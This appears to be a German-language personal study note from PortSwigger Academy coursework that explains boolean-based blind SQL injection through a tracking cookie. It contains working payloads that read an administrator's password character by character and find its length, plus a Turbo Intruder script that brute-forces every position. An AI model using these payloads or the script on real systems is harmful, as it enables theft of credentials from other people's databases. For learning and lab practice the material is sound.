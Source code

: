 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist Blind SQL Injection

Wenn eine Applikation eine SQL Injection Schwachstelle hat, aber die HTTP Antwort eine andere ist als die relevanten SQL query Details.

In der hinsicht sind Funkionen wie UNION nicht so sinnvoll weil diese aufgrund von Daten die man bekommt zusammengestellt werden.



## Exploiting Blind SQL Injection

Wir gehen davon aus, wir haben einen Cookie welcher Daten für analytische Zwecke abzwackt.
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

Wenn ein Cookie sowas wie TrackingId hat, schau die SQL Query ob der Nutzer bekannt oder unbekannt ist und ruft sowas wie:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
auf.

In diesem Fall werden die Daten nicht zum User returned. 
Allerdings verhält sich die App anders und man hat sowas wie ein "Welcome Back" Abschnitt welcher Zugänge ermöglicht.


#### **Boolean-based**
Man nutzt aus, dass sich die Antwort einer HTTP Anfrage ändert je nachdem ob die eingeschleuse Bedingung in der Datenbank Wahr oder Falsch ist.

Beispiel-Mechanik, vereinfacht:
- Request A enthält eine injizierte Bedingung, die **wahr** ist -> die Seite zeigt z. B. „Welcome back“.
- Request B enthält eine injizierte Bedingung, die **falsch** ist -> „Welcome back“ fehlt.  
    Anhand dieses Unterschieds weißt du, ob die Bedingung true/false ist.

##### Zum Beispiel beim auslesen von Passwörtern - Zeichen für Zeichen

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')<'m'--`
-> Wenn die Bedingung Wahr ist, wissen wir, dass der erste Buchstabe des Passworts kleiner als 'm' ist. Dann bruteforcen wir den Rest, Zeichen für Zeichen bis das Passwort vollständig rekonstruiert ist.
Auch in diesem Fall nehmen unterschiedliche Datenbanken unterschiedliche Synonyme für den SUBSTRING -> [SQL-Injection-Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

##### Auslesen der Passwortlänge

`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'--`

Mit folgendem Script lässt sich das im Turbo Intruder einsetzen.
Prinzipiell ist es wie bei Intruder die Cluster Bomb mit 2 Paramtern(Numbers, Brute-Froce) - Wir laufen für jede Stelle im Passwort jedes Zeichen aus der Liste ab.
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=5,
        requestsPerConnection=100,
        pipeline=False,
        engine=Engine.THREADED
    )

    # Länge des Passworts (Anzahl Iterationen für 'i')
    password_length = 20

    # Zeichenliste (als Liste einzelner Zeichen)
    characters = list("0123456789abcdefghijklmnopqrstuvwxyz")

    # Vorlage-Request (typisch ein String mit PLACEHOLDER1 / PLACEHOLDER2)
    template = target.req

    for i in range(1, password_length + 1):
        for ch in characters:
            # Wandle i in String um und ersetze beide Platzhalter
            req = template.replace("PLACEHOLDER1", str(i)).replace("PLACEHOLDER2", ch)
            # Queue den Request
            engine.queue(req)

    # Wichtig: das Engine-Objekt zurückgeben
    return engine

def handleResponse(req, interesting):
    # 'table' ist in TI normalerweise vorhanden - fügt die Zeile zur UI hinzu
    try:
        table.add(req)
    except Exception:
        # Fallback-Log, falls table nicht verfügbar ist
        print("Error:", req)

```

Lässt sich dann wie folgt einsetzen. ![[sqli_blind_inject1.PNG]]
